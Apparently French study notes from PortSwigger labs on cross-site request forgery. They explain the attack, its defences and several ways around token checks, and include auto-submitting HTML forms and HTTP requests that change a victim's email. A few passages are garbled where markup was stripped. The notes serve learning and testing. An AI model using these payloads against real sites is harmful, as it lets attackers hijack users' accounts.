

# CheckList en pratique

- Dès qu'il y a un formulaire ou une action sensible liée au compte par exemple ==> penser CSRF.
- Countournement de validation du token CSRF défaillante :
    - Par dépendance de la méthode HTTP (POST en GET) (faire attention aux caractères encodés)
    - En cas d'oubli du token entier (+ variable le contenant), pas que la valeur (pas de présence = pas de validation).
    - jeton csrf non lié à la session : prendre 2 comptes et vérifié que le jeton d'un utilisateur (après avoir drop la requête de l'action sensible) n'est pas utilisable sur la même action de l'autre compte.
- Countournement des restrictions de cookies `SameSite`


### Template HTML pour le csrf
```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

# Explication de la vulnérabilité  

Le CSRF est une vulnérabilité de sécurité Web qui permet à un attaquant d'inciter les utilisateurs à effectuer des actions dont ils n'en ont aucune intention.
Cela permet à un attaquant de contourner en partie CSP, conçue pour empêcher différents sites Web d’interférer les uns avec les autres.

# Impacts d'une attaque CSRF

Le résultat d'une attaque réussie consiste à provoquer une action de la part de la victime de manière non intentionnelle.
Ex :
- Changer une adresse mail d'un compte.
- Changer un mot de passe.
- Faire un transfert d'argent.
Si le compte a des privilèges spécifiques, l'attaquant peut compromettre encore plus de données,
voir l'application entière.

# Comment une CSRF fonctionne?
Pour qu'une attaque CSRF fonctionne, 3 conditions doivent être réunies :
1. **Une action pertinente.** Il existe une action au sein de l’application que l’attaquant a une raison de provoquer (action privilégiée come la modification des autorisations d'autres utilisateurs, ou d'action sur un type de donnée spécifique comme la modification de mdp).
2.  **Une gestion de session basée sur les cookies.** L'exécution de l'action implique l'émission d'une ou plusieurs requêtes HTTP, et l'application s'appuie uniquement sur les cookies de session pour identifier l'utilisateur qui a effectué les requêtes. Il n'existe aucun autre mécanisme en place pour suivre les sessions ou valider les demandes des utilisateurs.
3. **Aucun paramètre de requête imprévisible.** Les requêtes qui effectuent l'action ne contiennent aucun paramètre dont l'attaquant ne peut pas déterminer ou deviner les valeurs. Par exemple, lorsqu'un utilisateur demande à un utilisateur de modifier son mot de passe, la fonction n'est pas vulnérable si un attaquant a besoin de connaître la valeur du mot de passe existant.

Un exemple de ces trois condition serait la requête suivante :

```HTTP
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```

Avec ces conditions, l'attaquant peut construire un site web avec le HTML suivant par exemple :
```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
Si la victime visite le site web alors :

1. La page de l'attaquant déclenchera une requête HTTP vers le site Web vulnérable.
2. Si l'utilisateur est connecté au site Web vulnérable, son navigateur inclura automatiquement son cookie de session dans la demande (en supposant que les cookies `SameSite` ne soient pas utilisés).
3. Le site Web vulnérable traitera la demande de la manière normale, la considérera comme ayant été faite par l'utilisateur victime et modifiera son adresse e-mail.

## Comment construire une attaque CSRF (avec Burp suite)
Voir le site de Portswingger (version pro).

## Comment délivrer un exploit CSRF
- Placer le code HTML malveillant sur un site web que l'attaquant contrôle et le faire visiter par l'utilisateur cible.
- Il peut faire la visite de son site par diverses méthodes : emial, social média, en envoyant le lien, dans un commentaire d'un site.
- si un site est vulnérable et l'attaque CSRF peut se contenir dans une requête GET (information dans la QS), alors il n'a pas besoin de site externe (`)`.

## Défenses communes contre le CSRF

- **Jetons CSRF**: un jeton CSRF est une valeur unique, secrète et imprévisible générée par l'application côté serveur et partagée avec le client. Lorsqu'il tente d'effectuer une action sensible, telle que la soumission d'un formulaire, le client doit inclure le jeton CSRF correct dans la demande, sinon le serveur refuse la requête. Cela rend très difficile pour un attaquant de construire une requête valide au nom de la victime.

- **Cookies SameSite** - `SameSite` est un mécanisme de sécurité du navigateur qui détermine quand les cookies d'un site Web sont inclus dans les demandes provenant d'autres sites Web. Étant donné que les demandes d'exécution d'actions sensibles nécessitent généralement un cookie de session authentifié, les restrictions `SameSite` appropriées peuvent empêcher un attaquant de déclencher ces actions sur plusieurs sites. Depuis 2021, Chrome applique par défaut les restrictions Lax SameSite. Comme il s’agit de la norme proposée, nous nous attendons à ce que d’autres navigateurs majeurs adoptent ce comportement à l’avenir.

- **Validation basée sur le Referer :** certaines applications utilisent l'en-tête HTTP Referer pour tenter de se défendre contre les attaques CSRF, normalement en vérifiant que la requête provient du propre domaine de l'application. Ceci est généralement moins efficace que la validation de jeton CSRF.

# Contourner la validation du jeton CSRF

## Qu'est-ce qu'un jeton CSRF ?

Une manière commune de partager les jetons CSRF avec le client est de l'inclure dans un paramètre caché dans un formulaire HTML, par exemple :
```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```
La soumission de ce formulaire ressemblera donc à ça :

```HTTP
POST /my-account/change-email HTTP/1.1
Host: normal-website.com
Content-Length: 70
Content-Type: application/x-www-form-urlencoded

csrf=50FaWgdOhi9M9wyna8taR1k3ODOR8d6u&email=example@normal-website.com
```

Lorsqu'ils sont correctement mis en œuvre, les jetons CSRF contribuent à la protection contre les attaques CSRF en rendant difficile pour un attaquant de construire une requête valide au nom de la victime. Comme l’attaquant n’a aucun moyen de prédire la valeur correcte du jeton CSRF, il ne pourra pas l’inclure dans la requête malveillante.

## Failles courantes dans la validation des jetons CSRF

### La validation du jeton CSRF dépend de la méthode de demande
Certaines applications valident correctement le jeton lorsque la requête utilise la méthode POST mais ignorent la validation lorsque la méthode GET est utilisée.

Dans cette situation, l'attaquant peut passer à la méthode GET pour contourner la validation et lancer une attaque CSRF :
```HTTP
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

### La validation du jeton CSRF dépend de la présence du jeton
Certaines applications valident correctement le jeton lorsqu'il est présent mais ignorent la validation si le jeton est omis.

Dans cette situation, l'attaquant peut supprimer l'intégralité du paramètre contenant le token (pas seulement sa valeur) pour contourner la validation et lancer une attaque CSRF :
```HTTP
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net
```

### Le jeton CSRF n'est pas lié à la session utilisateur
Certaines applications ne valident pas que le token appartient à la même session que l'utilisateur qui fait la demande. Au lieu de cela, l'application gère un pool global de jetons qu'elle a émis et accepte tout jeton apparaissant dans ce pool.

Dans cette situation, l'attaquant peut se connecter à l'application en utilisant son propre compte, obtenir un jeton valide, puis transmettre ce jeton à l'utilisateur victime dans le cadre de son attaque CSRF.


Exemple de code html pour exécuter un csrf.
```HTML
<form action="https://0a86006b04152df3804ff92400ae0020.web-security-academy.net/my-account/change-email" method="POST">
<input type="hiden" name="csrf" value="H89z37kivmX66XriVlFVblYPw329Kd8Q">
<input type="hidden" name="email" value="AZERTY@gmail.com" />
<input type="submit" value="Submit request" />
</form>

<script>
        document.forms[0].submit();
</script>
```

## Le jeton CSRF est lié à un cookie hors session

Il arrive que le token CSRF soit lié à un cookie mais pas le cookie qui suit les sessions. Ceci arrive généralement lorsque l'application utilise 2 frameworks : 1 pour gérer la session et 1 pour la protection CSRF. Les deux n'étant pas intégrés ensemble.


```html
<form action="https://targetWebSite.com/my-account" method="POST">
<input type="hidden" name="csrf" value="eNqNZCzoc7tu5xx5BjlBnn6Yvu1Lg8u6">
<input type="hidden" name="email" value="AZERTY@gmail.com" />
<input type="submit" value="Submit request" />
</form>

```


Ici le lien avec /?search permet de modifier un cookie contenant un csrfKey (lié au csrf token).
L'action intéréssante est représenté par le lien /change-email.
L'idée de ce template est d'ajouter un cookie (le csrf-key ici) à partir de la balise \ et lorsque l'erreur se produit, il y a la soumission du vrai token csrf.
Cela marche seulement si le Same-site=None, seulement si le cookie est secure (voir Set-Cookie).

## Le token CSRF est simplement dupliqué dans un cookie

Dans une autre variante de la vulnérabilité précédente, certaines applications ne conservent aucun enregistrement côté serveur des jetons émis, mais dupliquent plutôt chaque jeton dans un cookie et un paramètre de requête.

Lorsque la requête suivante est validée, l'application vérifie simplement que le jeton soumis dans le paramètre de requête correspond à la valeur soumise dans le cookie. Cette méthode est parfois appelé la défense `« double submit »` contre CSRF, et est préconisée car il est simple à mettre en oeuvre et évite le besoin d'un état côté serveur :

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

Dans cette situation, l'attaquant peut à nouveau effectuer une attaque CSRF si le site Web contient une fonctionnalité de paramétrage de cookies. 

Ici, l’attaquant n’a pas besoin d’obtenir son propre jeton valide. Il invente simplement un jeton (peut-être dans le format requis, si cela est vérifié), exploite le comportement de configuration des cookies pour placer leur cookie dans le navigateur de la victime et transmet le jeton à la victime lors de l'attaque CSRF.

# Contournement des restrictions relatives aux cookies SameSite

SameSite est un mécanisme de sécurité du navigateur qui détermine quand les cookies d'un site Web sont inclus dans les requêtes provenant d'autres sites Web. Les restrictions des cookies SameSite offrent une protection partielle contre diverses attaques intersites, notamment CSRF, les fuites intersites et certains exploits CORS.

Depuis 2021, Chrome applique par défaut les restrictions `Lax` SameSite si le site Web qui émet le cookie ne définit pas explicitement son propre niveau de restriction. 

## Qu'est-ce qu'un site dans le cadre des cookies SameSite ?

Dans le contexte des restrictions de cookies `Samesite`, un site est défini comme le **top-level domain** (TLD) + un niveau supplémentaire du nom de domaine (TLD+1).
Pour déterminer si une requête est same-site ou non, le schéma URL est aussi pris en compte.


## Quelle est la différence entre un site et une origine?
La différence entre un site et une origine réside dans leur portée. Un site englobe plusieurs noms de domaine, alors qu'une origine n'en comprend qu'un.



Deux URL sont considérées comme ayant la même **origine** si elles partagent exactement le même schéma, le même nom de domaine et le même port. Il convient toutefois de noter que le port est souvent déduit du schéma.

Comme on peut le voir sur cet exemple, le terme « **site** » est beaucoup moins spécifique puisqu'il ne représente que le schéma et la dernière partie du nom de domaine. Fondamentalement, cela signifie qu’une requête cross-origin peut toujours concerner le même site, mais pas l’inverse.

## Comment fonctionne SameSite ?
Avant l'introduction du mécanisme SameSite, les navigateurs envoyaient des cookies dans chaque requête au domaine qui les avait émis, même si la requête était déclenchée par un site Web tiers.

SameSite fonctionne en permettant aux navigateurs et aux propriétaires de sites Web de limiter les requêtes intersites, qui doivent inclure des cookies spécifiques (si nécessaire).
Ce mécanisme limite l'exposition aux attaques CSRF, qui incite le naviateur à provoquer une requête malveillante nécessitant un cookie d'authentification.

Tous les principaux navigateurs prennent actuellement en charge les niveaux de restriction SameSite suivants :
- `Strict`
- `Lax`
- `None`

Les développeurs peuvent configurer leurs cookies en ajoutant un attribut `SameSite` dans le header de réponse `Set-Cookie` : 
`Set-Cookie: session=0F8tgdOhi9ynR1M9wa3ODa; SameSite=Strict`

> Si le site Web émettant le cookie ne définit pas explicitement un attribut SameSite, Chrome applique automatiquement les restrictions Lax par défaut.

### Strict 
Si un cookie est défini avec l'attribut `SameSite=Strict`, les navigateurs ne l'enverront dans aucune requête cross-site (ie si le site cible de la demande ne correspond pas au site actuellement affiché dans la barre d'adresse du navigateur).


